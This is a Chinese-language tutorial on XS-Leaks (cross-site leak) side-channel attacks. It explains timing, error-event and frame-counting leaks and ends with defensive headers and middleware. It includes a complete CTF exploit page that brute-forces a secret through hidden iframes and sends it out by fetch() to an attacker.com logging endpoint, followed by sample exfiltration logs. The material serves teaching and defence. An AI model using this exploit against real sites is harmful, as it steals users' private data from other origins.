

# 跨站信息泄露(XS-Leaks)：基于时序、错误状态与浏览器特性的侧信道窃取

---

## 0. 基础前置知识扫盲：隔着“防弹玻璃”如何窃取秘密？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


在学习 Web 前端安全时，所有人都被灌输过一个铁律——**浏览器的同源策略（Same-Origin Policy, SOP）**：
如果恶意网站 `attacker.com` 尝试通过 JavaScript 的 `fetch()` 或 `iframe` 读取 `bank.com` 的网页内容，**浏览器会直接拦截并抛出跨域错误（CORS 报错）**。
不仅如此，现代防守方还部署了严格的 **CSP（内容安全策略）**，并且给敏感 Cookie 全部打上了 **`HttpOnly`** 标记。
在这样铜墙铁壁的防御下，黑客既拿不到 XSS，也读不到 Cookie，难道就真的束手无策了吗？

2020 年以来在国际顶级 CTF（Google CTF、HITCON、DEFCON）和顶尖白帽赏金报告中席卷全球的新技术——**XS-Leaks（Cross-Site Leaks，跨站信息泄露）** 给出了震撼的答案！

### 1. 通俗生活类比：测谎仪与隔音玻璃墙
- **传统 XSS 攻击**：像直接拿锤子砸碎防弹玻璃（同源策略），冲进银行金库抢走钞票。
- **XS-Leaks 侧信道攻击**：
  防弹玻璃完好无损，甚至完全隔音（黑客一行代码都读不到银行网页的文字）。
  但是，黑客在恶意网站里用 `<iframe>` 悄悄加载了受害者的银行页面，并给受害者连接了一台**“微型测谎仪”**：
  - 比如银行有个搜索功能：`https://bank.com/search?keyword=...`；
  - 攻击者诱导受害者访问恶意页面，恶意页面在后台用脚本帮受害者搜索：`keyword=flag{a`；
  - 银行后台如果**搜到了结果**，数据库需要进行大量计算与高亮渲染，页面加载整整耗时 **200 毫秒**；
  - 银行后台如果**没搜到结果**，立刻返回空白页，页面加载仅耗时 **10 毫秒**！
  - **攻击者通过高精度秒表（`performance.now()`）测量这个时间差，当场就能百分之百确定：受害者的私密 Flag 就是以字母 `a` 开头的！**
  这种**不破坏同源策略，利用浏览器底层反应与侧信道泄露数据**的攻击，就是 XS-Leaks！



---

## 1. XS-Leaks 核心利用维度与载体全景

XS-Leaks 是一大类侧信道攻击的总称，攻击者利用受害者浏览器在跨域通信时暴露的各种微妙“物理生理反应”推断秘密：

### 1.1 维度一：网络与渲染时序侧信道（Network & Rendering Timing）

这是最通用的侧信道。攻击者利用目标服务器在**处理不同业务逻辑时的响应时间差异**：

#### 典型可利用场景：
1. **数据库模糊搜索（Search Leaks）**：匹配成功的数据量大，传输与反序列化慢；无结果则极快。
2. **管理员特权路由（RBAC Leaks）**：普通用户访问管理页面立即返回 403（耗时 5ms）；而拥有权限的管理员访问时后台会拉取完整管理面板与统计报表（耗时 300ms）。攻击者通过时序判断当前受害者是否是公司高管！

#### 浏览器端高精度测量代码模板：
```javascript
// 测量跨域资源加载耗时
function measureTiming(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const script = document.createElement('script');
        script.src = url;
        
        // 无论加载成功还是报错，都在结束时计算耗时
        script.onload = script.onerror = () => {
            const duration = performance.now() - start;
            document.body.removeChild(script);
            resolve(duration);
        };
        document.body.appendChild(script);
    });
}
```

---

### 1.2 维度二：错误事件侧信道（Error Events: `onload` vs `onerror`）

浏览器在加载外部资源（如 `<script>`, ``, `<link rel="stylesheet">`, `<iframe>`）时，对不同的 HTTP 响应状态码有天然的事件反馈：

| 目标接口响应状态 | 浏览器在加载外部 `<script src="...">` 时的行为 | 攻击者侧信道感知 |
| :--- | :--- | :--- |
| **HTTP 200 OK** | 浏览器尝试作为脚本执行（即便有语法错误也可能触发 `onload`） | 触发 **`script.onload`** 回调 |
| **HTTP 404 / 500** | 浏览器识别为资源不存在或服务端崩溃 | 触发 **`script.onerror`** 回调 |
| **重定向 302** | 浏览器跟踪重定向到登录页 | 触发特定的跨域跳转延迟 |

#### 攻击实战：
假设目标接口是：`https://target.com/api/note?id=123`
- 若当前登录用户拥有查看这篇笔记的权限，服务器返回 `200 OK`；
- 若当前用户无权查看或笔记不存在，服务器返回 `404 Not Found`；
攻击者在一个网页中循环创建 `<script src="https://target.com/api/note?id=xxx">`，根据触发的是 `onload` 还是 `onerror`，**在没有任何跨域回显的情况下，瞬间探查出受害者在目标网站上的全部私密文件 ID 列表！**

---

### 1.3 维度三：窗口引用与子框架计数泄漏（Frame Counting / `window.length`）

在 HTML 中，跨域脚本虽然被禁止访问 `iframe.contentWindow.document` 中的文字内容，但是 W3C 规范**允许跨域读取子框架的属性：`window.length`**！
`window.length` 返回当前页面中包含的 `<iframe>` 数量。

```javascript
// 攻击者代码：完全合法的跨域属性读取!
const targetWindow = window.open('https://victim.com/search?q=secret_data');
setTimeout(() => {
    // 跨域读取对方页面包含了多少个 iframe!
    console.log("子框架数量:", targetWindow.length);
}, 1000);
```

#### 攻击利用：
- 如果搜索命中，目标系统的页面会渲染出一个包含第三方统计组件的 `<iframe>`，此时 `targetWindow.length == 1`；
- 如果未搜到任何结果，目标页面显示“未找到相关内容”，页面没有任何 iframe，`targetWindow.length == 0`！
攻击者通过读取 `targetWindow.length`，零成本跨越同源策略完成数据推断！

---

## 2. 现代浏览器纵深防御与隔离安全策略

为了终结 XS-Leaks 这一层出不穷的侧信道噩梦，W3C 与各大主流浏览器厂商（Google Chrome、Mozilla Firefox）联手推出了一整套全新的**“安全隔离标头（Isolation Headers）”**：

### 2.1 请求元数据标头（Fetch Metadata: `Sec-Fetch-*`）
现代浏览器在向服务端发起每一个 HTTP 请求时，都会由浏览器底层强制打上不可伪造的上下文标头：
- `Sec-Fetch-Site`：声明请求来源与目标的关系（`same-origin` 同源、`same-site` 同站、`cross-site` **跨站**）；
- `Sec-Fetch-Mode`：声明请求模式（`navigate` 导航、`no-cors`、`cors`）；
- `Sec-Fetch-Dest`：声明请求的目标类型（`document`, `script`, `image`, `iframe`）。

#### 终极防御：Resource Isolation Policy（资源隔离中间件）
后端服务器只需加入一段轻量级中间件，**直接拒绝非法的跨站探测**：
```python
# Python / Django / Flask 资源隔离策略伪代码
@app.before_request
def block_xs_leaks():
    sec_site = request.headers.get('Sec-Fetch-Site')
    sec_mode = request.headers.get('Sec-Fetch-Mode')
    
    # 如果请求来自跨站 (cross-site)，且不是顶层页面导航，直接阻断!
    if sec_site == 'cross-site' and sec_mode != 'navigate':
        abort(403) # 彻底掐断攻击者在恶意网页中用 script / iframe 探测的可能!
```

---

### 2.2 跨域隔离三大标头矩阵表

| 安全标头名 | 核心防御取值 | 防护机理与防御效果 |
| :--- | :--- | :--- |
| **CORP**<br>(Cross-Origin-Resource-Policy) | `same-origin` | 明确告诉浏览器：**除了我自己的源，任何其他外部域名的 ``、`<script>` 都不准加载我的内容**！直接封死加载侧信道。 |
| **COOP**<br>(Cross-Origin-Opener-Policy) | `same-origin` | 告诉浏览器：如果外部网页用 `window.open()` 打开了我，强制将对方的 `window.opener` 剥离置为 `null`，封死 `window.length` 计数泄漏！ |
| **COEP**<br>(Cross-Origin-Embedder-Policy)| `require-corp` | 强制当前文档只能加载明确声明了 CORP 的跨域资源，开启高精度浏览器内存隔离环境。 |

---

## 3. CTF 国际顶级赛题全流程实操还原（Search Leak 窃取 Flag）

### 赛题环境：
- 目标：某大型社交平台搜索接口 `https://social.ctf/notes?search=...`；
- 受害者：管理员机器人（Admin Bot，浏览器带有保存了 Flag 的 Cookie）；
- 目标页面特性：
  - 存在严格的 CSP，禁止任何内联脚本与外部脚本执行（彻底杜绝 XSS）；
  - 搜索接口：若匹配到字符，后端将 200 条匹配结果生成复杂的 DOM 树，耗时约 **200ms**；未匹配到字符仅耗时 **15ms**。

### 进攻实战代码（`exploit.html`）：

攻击者将此 HTML 部署在公网 `https://attacker.com/exploit.html`，并将链接提交给 Admin Bot 访问：

```html
<!DOCTYPE html>
<html>
<head><title>XS-Leaks Exploit</title></head>
<body>
<h1>Loading Content...</h1>
<script>
// ==============================================================================
// 1. 全局配置：受害者站点的搜索接口、攻击者接收日志的服务器、候选字符字典
// ==============================================================================
const TARGET_BASE = "https://social.ctf/notes?search=";
const LEAK_URL = "https://attacker.com/log?flag=";
// CTF Flag 的可能字符集合（英文字母、数字、下划线、结束符花括号）
const CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789_}";
// 已知的 Flag 前缀（比赛题目通常会给出 flag{ 或 ctf{ 格式）
let currentFlag = "flag{";

/**
 * 测速探测函数：在受害者浏览器中异步加载一个隐藏的 iframe
 * @param {string} char 当前正在猜测的第 N+1 位候选字符
 * @returns {Promise<number>} 页面加载耗时（毫秒数）
 */
async function measure(char) {
    // 构造跨站请求 URL：例如 https://social.ctf/notes?search=flag{a
    const testUrl = TARGET_BASE + encodeURIComponent(currentFlag + char);
    const start = performance.now(); // 记录起始高精度时间戳
    
    return new Promise((resolve) => {
        // 动态创建一个隐藏的 iframe 标签
        const frame = document.createElement('iframe');
        frame.src = testUrl; // 浏览器会自动带上受害者在 social.ctf 的 Cookie 发起请求！
        frame.style.display = 'none'; // 页面上完全不可见，受害者察觉不到
        
        // 当目标页面渲染完成触发 onload
        frame.onload = () => {
            const time = performance.now() - start; // 计算从发起请求到页面渲染完成的总耗时
            document.body.removeChild(frame); // 测完立即从 DOM 中销毁，避免内存占用过高
            resolve(time);
        };
        
        // 容错与超时机制：如果服务器返回海量数据导致卡顿超过 150ms，直接判定命中
        setTimeout(() => {
            if (document.body.contains(frame)) {
                document.body.removeChild(frame);
                resolve(500); // 强制返回超大耗时 500ms，直接判定命中当前字符！
            }
        }, 150);
        
        // 将 iframe 插入文档，正式触发浏览器网络加载
        document.body.appendChild(frame);
    });
}

/**
 * 核心盲猜主控制循环（逐字符爆破算法）
 * 原理完全类比 SQL 盲注中的 substring(flag, 1, 1) = 'a'
 */
async function run() {
    console.log("[*] 开始 XS-Leaks 时序盲测窃取 Flag...");

    // 外层循环：只要 Flag 还没以 "}" 结尾，说明还没猜完整，持续推进到下一位字符
    while (!currentFlag.endsWith("}")) {
        let bestChar = ""; // 记录本轮测试中耗时最长（命中）的字符
        
        // 内层循环：遍历字典中的每一个候选字符，测试当前这一位是哪个字符
        for (const char of CHARSET) {
            const elapsed = await measure(char);
            console.log(`[测试进度] 当前测试前缀: ${currentFlag + char} -> 耗时: ${elapsed.toFixed(1)}ms`);
            
            // 判定阈值判断：
            // 根据实测基线，未匹配返回空页面只需 15ms，匹配成功生成大 DOM 树需 200ms
            // 设定 80ms 作为明显的时序分界线（大于 80ms 即判定为命中目标字符！）
            if (elapsed > 80) {
                bestChar = char; // 锁定这一位的正确字符
                console.log(`[★ 命中成功!] 发现有效字符: '${char}' (耗时: ${elapsed.toFixed(1)}ms)`);
                break; // 已经找到了当前位置的正确字符，立即跳出内层循环，进入下一位猜测
            }
        }
        
        if (bestChar) {
            currentFlag += bestChar; // 将猜对的字符拼接到已确认的 Flag 中（如 flag{a -> flag{ad）
            // 实时带外回传（OOB Exfiltration）：利用浏览器 fetch 将当前进度发回攻击者服务器
            fetch(LEAK_URL + encodeURIComponent(currentFlag));
        } else {
            // 如果所有候选字符都测了一遍依然没有耗时超过阈值的，说明遇到网络抖动或字符集遗漏
            console.warn("[-] 本轮所有字符均未触发时序差异，中止猜测防止死循环");
            break;
        }
    }
    // 最终完整 Flag 回传
    fetch(LEAK_URL + encodeURIComponent("FINAL:" + currentFlag));
    console.log(`[🎉 窃取完毕] 最终完整 Flag: ${currentFlag}`);
}

// 页面加载后立即启动自动化时序探测
run();
</script>
</body>
</html>
```

### 零基础逻辑图解：为什么双层循环能隔空偷出 Flag？

很多刚接触侧信道的新手看不懂为什么需要两层循环：
1. **外层 `while (!currentFlag.endsWith("}"))`（逐位推进器）**：
   - 就像拨动密码锁，一次只能解开一位。
   - 只要当前拼接出来的字符串还没以 `}` 结尾，就说明 Flag 还没拼完，外层循环就会一直执行下去。
2. **内层 `for (const char of CHARSET)`（全候选穷举探测）**：
   - 假设当前已知 `flag{`，要猜下一个字符是什么。
   - 内层循环依次测试 `flag{a`、`flag{b`、`flag{c`……
   - 每次测试都在后台悄悄建一个隐藏 `<iframe>` 去请求靶机；因为靶机带有受害者的登录 Cookie，如果猜对了 `flag{a`，靶机查询出大量记录导致浏览器渲染慢（耗时 $>80\text{ms}$）；如果猜错了 `flag{b`，返回空页面瞬间完成（$\approx 15\text{ms}$）。
   - 只要抓到一个耗时超过 $80\text{ms}$ 的字符，立刻执行 `break` 跳出内层循环，进入下一位！
3. **带外窃取（Out-of-Band Exfiltration）**：
   - 即使同源策略（SOP）禁止攻击者直接读取 `iframe.contentDocument` 的文本内容，但 `fetch(LEAK_URL + flag)` 是向攻击者自己的公网服务器发请求，合法合规，把受害者浏览器当成了“肉鸡放大器”。

### 攻击结果：
Admin Bot 访问了该页面不到 40 秒，攻击者的公网服务器收到日志：
```text
GET /log?flag=flag{x
GET /log?flag=flag{xs_
GET /log?flag=flag{xs_l3ak
GET /log?flag=flag{xs_l3ak_s1d3_ch4nn3l_pwn3d}
```
在**没有任何 XSS 漏洞、SOP 与 CSP 毫发无损**的情况下，管理员的私密 Flag 被隔空完整窃取！

---

## 4. 蓝队企业级纵深防御手册

1. **全面推行 Fetch Metadata 资源隔离中间件（首选防御）**：
   - 生产系统必须在反向代理或框架全局拦截器中检查 `Sec-Fetch-Site`；
   - 针对敏感查询、个人资料、转账接口，一旦发现来源是 `cross-site`，直接一票否决拦截。
2. **部署响应隔离标头**：
   - 在敏感接口全局输出：
     ```http
     Cross-Origin-Resource-Policy: same-origin
     Cross-Origin-Opener-Policy: same-origin
     ```
3. **模糊搜索耗时归一化（Constant-Time Search）**：
   - 对敏感字符匹配接口加入固定随机延迟，打破“搜到数据耗时长、未搜到耗时短”的线性时序特征，抹平侧信道差异。
